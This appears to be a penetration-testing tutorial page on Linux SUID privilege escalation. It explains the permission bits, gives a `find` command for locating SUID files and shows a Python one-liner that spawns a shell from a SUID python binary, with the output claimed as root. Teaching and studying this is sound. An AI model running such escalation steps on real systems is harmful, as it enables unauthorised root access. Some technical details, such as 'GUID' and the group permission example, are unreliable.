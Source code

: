 # SUID Privilege Escalation

## What is SUID?

**Set User ID (SUID)** is a special permission in Unix/Linux systems. When a file has the SUID bit set, it allows the file to be executed with the privileges of the file's owner, regardless of the user running the file. Typically used to grant regular users temporary elevated permissions to execute specific tasks.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Indicated by `rws` for the owner’s permission. When the **SUID** bit is set (`s` instead of `x` for execute), any user who runs this file does so with the **permissions of the file owner**. This is commonly used when a file is owned by **root** but allows regular users to execute it with root privileges.

The next three characters (`rws`) represent the permissions for the **group** that owns the file. Similar to the owner permissions, **read (r)**, **write (w)**, and **execute (x)** are granted or denied to the group. When the **GUID (Set Group ID)** is set, the execute bit for the group is replaced with an `s`, indicating that the file will be run with the group’s privileges.

The **GUID** is similar to SUID but applies to the **group**. It allows anyone executing the file to run it with the permissions of the group that owns the file. In this example, the group permission includes `s`, showing that the GUID bit is set.

## How to Identify SUID Files

SUID files can be identified by searching for files with the `s` bit in the owner's execute permission field.

```bash
find / -perm -4000 2>/dev/null
```

Example of an SUID file:

```bash
-rwsr-xr-x 1 root root /usr/bin/passwd
```

In this example:

* `rws` indicates the SUID bit is set.
* The owner is **root**, meaning any user executing this file does so with **root** privileges.

## How to exploit SUID Binaries to escalate privilege.

Certain binaries, like `su`, `sudo`, `passwd`,etc typically have the SUID bit set on all Linux systems. These are essential system binaries and are generally secure. However, vulnerabilities are more likely to be found in non-system binaries. To begin exploring potential exploitation methods, checking GTFObins for any relevant techniques is a great first step.

{% embed url="https://gtfobins.github.io/#+suid" %}

For an example, if suid is set on python then we can exploit it to escalate privileges

**Verify SUID on python**

```
ls -l /usr/bin/python
-rwsr-xr-x 1 root root /usr/bin/python

```

Create a Python One-Liner for Privilege Escalation

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-i")'
```

Verifying privilege escalation

```
whoami
root
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

